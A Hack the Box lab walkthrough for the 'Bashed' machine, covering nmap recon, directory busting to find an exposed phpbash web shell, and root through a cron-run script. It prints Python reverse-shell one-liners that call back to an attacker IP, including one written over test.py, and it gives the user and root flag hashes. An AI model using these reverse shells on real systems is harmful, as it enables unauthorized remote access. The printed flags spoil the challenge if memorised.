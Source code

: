 ```yaml
---
title: "Bashed - Hack the Box"
date: 2024-11-2 16:46:40 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bashed.png
---
```


Bashed is an easy machine on the HTB platform. Attackers must utilize their knowledge of web enumeration, scripting, and processes/permissions to achieve root access. There is quite a bit to be gained from diving into this machine, so lets start with our nmap scan.

### Reconnaissance

```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 08:45 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.42 seconds

```

Simple scan here, as the only port available to is port `80`. At the time, I'd no familiarity with other batch scan tools like `autorecon` and `nmapAutomator`. However, luckily this was the intended vector for the machine. It is always important to thoroughly enumerate these scans for everything. Write down each open port and what services are running on them.

### Enumeration

Seeing as the website is the only vector we have access to, we can be confident and aggressive in our approach.

 ![Image](/assets/Screenshot 2024-09-06 at 8.51.26 AM.png) 

The landing page offers us some information about `phpbash` as a tool, and we can do our due diligence to find out that it's essentially a web shell. Given the name of this box, I'd assume we were looking for a way to access a session hidden away in the directories of the server. We can use a directory-busting tool to enumerate further and we can also do so recursively should we need to pry further. I want to note, I used the `subdomain` wordlist here, but the `dirbuster 2.3 Medium` works as well.

![Image](/assets/Screenshot 2024-09-06 at 8.52.13 AM.png)

### Initial Access

It takes a while to know what to look for in terms of uncommon or vulnerable configurations in terms of web directories. There are some rabbit-holes indeed. Keep in mind, though, I've mentioned in another writeup that things like `/dev/` are always of interest, and that's exactly what we get here.

![Image](/assets/Screenshot 2024-09-07 at 8.27.20 AM.png)

We can see two files, but we're only interested in the second as it provides us with the aforementioned web shell.

![Image](/assets/Screenshot 2024-09-07 at 8.27.55 AM.png)

While it's great to get an initial foothold into the system, it's also important to acknowledge the limitations of an environment like this. We can query a bit with commands like `whoami` and `sysinfo`, but we'd like to get a stable shell with functionality as soon as we can. We can start our listener `rlwrap nc -nlvp 443` to have it catch our call-back shell. Which call-back you use is very preferential and takes trial and error, and in this case, a python script from
http://revshells.com did the trick.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![Image](/assets/Screenshot 2024-09-14 at 11.23.21 AM.png)

Now that we've caught our shell, we can do ourselves a great favor by looking to stabilize. We can check which python version is installed with `which python`. In this case, we've got `python` instead of `python3`:

`TARGE python -c 'import pty; pty.spawn("/bin/bash")'`
`TARGET: BACKGROUND THE PROCESS WITH ^Z`
`HOST: stty raw -echo;fg`
`TARGET: export TERM="xterm"`

Now, we can `cd` our way around to find the flag, usually within a users `/Desktop` directory.

`USER: b400f51178e32772ec99c792dd8b3465`

### Privilege Escalation

In order to get a sense of what we've got access to and what we do not, `sudo -l` and `ps -aux` are critical.

![Image](/assets/Screenshot 2024-09-14 at 11.34.28 AM.png)

Here, we can see that we've got unrestricted access to commands as scriptmanager. We'll need to switch users in order to make that happen. `sudo` has a tag where you care able to switch users with `-u`, and we can specify which user and the environment we need to be spawned in `/bin/bash`

`sudo -u scriptmanager /bin/bash`

Once switched over, we can mosey around looking for ways to move vertically. Given the name of our user, `scripts` is an interesting directory that requires a look.

![Image](/assets/Screenshot 2024-09-14 at 11.43.24 AM.png)

We can see the test script `test.py`, and it looks like it's being called every few minutes or so. All it does is write "Testing 123" to a file called `test.txt`. We assume a cronjob is calling it, given the periodical nature of its function. We can overwrite the file with a call-back shell to another listener. `rlwrap nc -nlvp 4444`

Overwrite the function with the script:

```
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")" > test.py
```

After a few minutes, we'll get a call-back on our listener

![Image](/assets/Screenshot 2024-09-14 at 12.07.58 PM.png)

 `ROOT:9aeb0d2bbee15d2405ee1a0cd24a9a5b`

#linux #easy #manual 
